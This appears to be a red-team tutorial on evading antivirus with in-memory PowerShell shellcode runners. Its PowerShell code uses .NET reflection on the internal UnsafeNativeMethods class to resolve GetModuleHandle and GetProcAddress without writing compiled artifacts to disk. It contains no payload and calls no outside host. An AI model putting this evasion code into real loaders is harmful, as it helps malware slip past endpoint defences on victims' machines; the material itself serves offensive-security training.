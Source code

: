 ## The Need
Our shell are fully executing in memory and can be evaded by antivirus scanning the disk.
However, PowerShell and the .NET framework leave artifacts on the hard drive that antivirus programs can identify.

In this final section, we will be dealing with the same problem.

We will use the .NET framweork's [reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection) technique to avoid creating the artifacts that can be detected by antivirus.

## Using UnsafeNativeMethods
Our last shellcode in memory executed 3 primary steps:
- Located the function
- Specified Argument data types from C to C# to powershell
- Invoke the function
 
There are 2 ways to locate functions in unmaged DLLs:
1. The Add-type function we used previously
2. Dynamic Link Lookup

### Wtf is Dynamic link lookup?
It's a way to locate functions in unmanaged DLLs by low level languages like C.
With this path, we can create a .NET assembly in memory instead of writing the code and compiling it on disk.
(yea, complicated.)

## Locating our functions

For this, we will be using 2 main Win32 APIs, these are;
1. [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea)
2. [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)

We can use these, but we need to use these without using Add-type

We can use the following code, to look for existing assemblies that match our criteria:
```Powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.GetTypes()|
      ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Contains('Unsafe')
          }
      } 2> $null
    }
```

Code summary:
- We first use GetAssemblies to search preloaded assemblies in the powershell process.
- Since each assembly is actually just an object, we'll use the ForEach-Object loop.
- We'll then use Get-types, with the \$_ variable which will contain the current object for each loop, to obtain their methods and structures.
- Then, for each object obtained we're performing another ForEach-Object loop and invoking the Get-Member cmdlet with the -Static flag to only locate static properties and methods.

In C#, when the code wants to directly invoke Win32 APIs, it must provide the Unsafe keyword indicating the use of TypeName.Contains('Unsafe') typename .
Also, the function used must be declared as static to avoid instantiation indicating the use of the -Static flag.

![ps_unsafe_res](../../../../Screenshots/ps_unsafe_res.png)

The search gives a big response including 16 occurances of _GetModuleHandle_ and _GetProcAddress_.
Looking for GetModuleHandle, one of them is located in the Microsoft.Win32.UnsafeNativeMethods class.
We also see GetProcAddress in the same class.

We now want to find what assembly are the functions located in, for this, we modify the code as follows:
```Powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()

$Assemblies |
  ForEach-Object {
    $_.Location
    $_.GetTypes()|
      ForEach-Object {
          $_ | Get-Member -Static| Where-Object {
            $_.TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods')
          }
      } 2> $null
    }
```
- We add the Location property in the first loop to print the current assembly location.
-  We also add the TypeName.Equals('Microsoft.Win32.UnsafeNativeMethods') typename to match our needed method instead of all methods


The output shows that the assembly for our functions is System.dll.


### Problem?
We can't use these methods because they're only meant to be used internally by the .NET code. 0_0 Great.

But we have a work around!


### Solution.
We're gonna develop a way to indirectly call them from Powershell or C#

We start by obtaining a reference to the System.dll assembly with the Get-Type method.
This reference, will then allow us to locate the methods we need.

Code:
```Powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { 
  $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
  
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
```
- We start by piping all the assemblies to a Where-Object on 2 conditions:
		- The GlobalAssemblyCache property is set. It's a list of all native and registered assemblies on Windows, which evidently lets us filter out the non-native assemblies.
		- The Location property is a filter to set the last part of the file with System.dll
		- We also use the Split method of the Location property to set a directory delimiter(\\)
		- We select the last element of the object using "-1" and see if it equals to System.dll
- This technique is called [Reflection](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/reflection)
- This technique lets us access references to objects that are otherwise internal.

We also use Reflection to access the GetModuleHandle method:
```Powershell
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
```

### Moving on
Now that we have our function, we can proceed to use the internal Invoke method to call GetModuleHandle and obtain the base address of an unmanaged DLL

The Invoke method takes 2 arguments:
1. The object to invoke it on, but since we use it on a static method, we can set it to null
2. An array consisting of the arguments for the GetModuleHandle method. We will be supplying the name of the dll.

Code:
```Powershell
$GetModuleHandle.Invoke($null, @("user32.dll"))
```

Moving on the GetProcAddress, we will again use the reflection technique to obtain our funciton:
```Powershell
$GetProcAddress = $unsafeObj.GetMethod('GetProcAddress')
```

However, we run into an error "Ambiguous match found."
This happens because there are multiple instances of GetProcAddress with the _Microsoft.Win32.UnsafeNativeMethods_.
Solution?
We just need to use GetMethods to obtain all of them and then we can proceed to filter out the one we need.
We can do this by changing our code to this:
```Powershell
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$_}}
```

We can use this by:
1. Creating an empty array and store both of them in it.
2. Referencing the element of the array to access the function.

The following code will do so:
```Powershell
$user32 = $GetModuleHandle.Invoke($null, @("user32.dll"))
$tmp=@()
$unsafeObj.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
$GetProcAddress = $tmp[0]
$GetProcAddress.Invoke($null, @($user32, "MessageBoxA"))
```
The C version of GetProcAddress takes 2 arguments:
- Base address of the DLL - $user32 array
- Name of the function - MessageBoxA

Our final code to locate the function will look like so:
```Powershell
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
```


